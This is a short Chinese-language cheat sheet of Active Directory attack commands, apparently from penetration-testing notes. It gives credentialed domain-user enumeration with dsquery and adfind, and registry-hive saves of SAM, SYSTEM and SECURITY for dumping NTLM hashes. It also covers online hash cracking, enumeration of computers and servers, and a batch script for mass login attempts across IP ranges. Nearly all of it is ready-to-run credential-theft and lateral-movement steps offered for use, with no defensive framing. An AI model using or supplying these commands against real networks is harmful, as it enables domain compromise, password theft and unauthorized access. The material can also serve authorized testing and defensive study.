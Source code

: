 ### 非域成员访问域控制器
```
csvde/ldifde -s servername -b username Domain password -f output.txt
```
```
dsquery * forestroot -s servername -u username -p password -filter "(sAMAccountType=805306368)" -attr sAMAccountName displayname description
```

```
adfind -h servername -u Domai\usernmae -up password -default -f "(sAMAccountType=805306368)" sAMAccountName displayname lastlogon pwdLastSet mail homedirectory scriptpath -int8time lastlogon;pwdlastset
```
### winfo

```
winfo 192.168.1.4 查看其他机器信息
```

## 常见攻击方法
### 用户登陆迭代
- 导出注册表

```
reg save hklm\sam sam.hive & reg save hklm\system system.hive & reg save hklm\security security.hive 导出注册表
```
- 导出hash

```
pwdump.py system.hive sam.hive
https://github.com/Neohapsis/creddump7
```

- 破解hash

```
http://www.hashkiller.co.uk/ntlm-decrypter.aspx
```

- 收集服务器

```
dsquery * -filter "&(sAMAccountType=805306369)" -attr cn 收集所有计算机
```

```
dsquery * -filter "&(sAMAccountType=805306369)(OperatingSystem=*server*)" -attr cn 收集服务器
```
- 尝试批量登陆

```
LoginTester.bat
https://github.com/Twi1ight/AD-Pentest-Script
```
>-s指定机器名列表
-i指定ip地址段，暂时只支持C段，ip地址格式形如192.168.1.5-250
-u指定账号密码文件，账号密码用冒号分隔
-o指定输出文件
-d指定域名，如果账号只本地用户则不需要指定这个参数
